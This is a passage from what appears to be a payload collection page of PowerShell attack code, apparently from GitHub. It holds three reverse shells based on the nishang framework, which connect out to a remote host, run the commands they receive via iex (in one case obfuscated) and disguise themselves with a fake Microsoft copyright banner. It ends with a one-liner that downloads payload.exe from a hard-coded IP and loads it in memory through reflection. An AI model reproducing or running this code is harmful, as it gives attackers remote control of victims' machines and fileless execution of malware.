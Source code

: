 ```powershell
$replace.Flush()};
$BT.Close()
```
Credit:
@TihanyiNorbert (Reverse shell based on the original nishang Framework written by @nikhil_mitt)

```powershell
$J = New-Object System.Net.Sockets.TCPClient($args[0],$args[1]);
$SS = $J.GetStream();
[byte[]]$OO = 0..((2-shl(3*5))-1)|%{0};
$OO = ([text.encoding]::UTF8).GetBytes("Copyright (C) 2022 Microsoft Corporation. All rights reserved.`n`n")
$SS.Write($OO,0,$OO.Length)
$OO = ([text.encoding]::UTF8).GetBytes((Get-Location).Path + '>')
$SS.Write($OO,0,$OO.Length)
[byte[]]$OO = 0..((2-shl(3*5))-1)|%{0};
while(($A = $SS.Read($OO, 0, $OO.Length)) -ne 0){;$DD = (New-Object System.Text.UTF8Encoding).GetString($OO,0, $A);
$GG = (i`eX $DD 2>&1 | Out-String );
$H  = $GG + (pwd).Path + '> ';
$L = ([text.encoding]::UTF8).GetBytes($H);
$SS.Write($L,0,$L.Length);
$SS.Flush()};
$J.Close()
```
Credit:
@TihanyiNorbert (Reverse shell based on the original nishang Framework written by @nikhil_mitt)

```powershell
$c = New-Object System.Net.Sockets.TCPClient($args[0],$args[1]);
$I = $c.GetStream();
[byte[]]$U = 0..(2-shl15)|%{0};
$U = ([text.encoding]::ASCII).GetBytes("Copyright (C) 2021 Microsoft Corporation. All rights reserved.`n`n")
$I.Write($U,0,$U.Length)
$U = ([text.encoding]::ASCII).GetBytes((Get-Location).Path + '>')
$I.Write($U,0,$U.Length)
while(($k = $I.Read($U, 0, $U.Length)) -ne 0){;$D = (New-Object System.Text.UTF8Encoding).GetString($U,0, $k);
$a = (iex $D 2>&1 | Out-String );
$r  = $a + (pwd).Path + '> ';
$m = ([text.encoding]::ASCII).GetBytes($r);
$I.Write($m,0,$m.Length);
$I.Flush()};
$c.Close()
```
Credit: @TihanyiNorbert (Based on the original nishang Framework written by @nikhil_mitt)

## Misc things:

WebClient DownloadData http://x.x.x.x/file.exe method:
```powershell
$bytes = (new-object net.webclient).downloaddata("http://10.10.16.74:8080/payload.exe")
[System.Reflection.Assembly]::Load($bytes)
$BindingFlags= [Reflection.BindingFlags] "NonPublic,Static"
$main = [Shell].getmethod("Main", $BindingFlags)
$main.Invoke($null, $null)
```
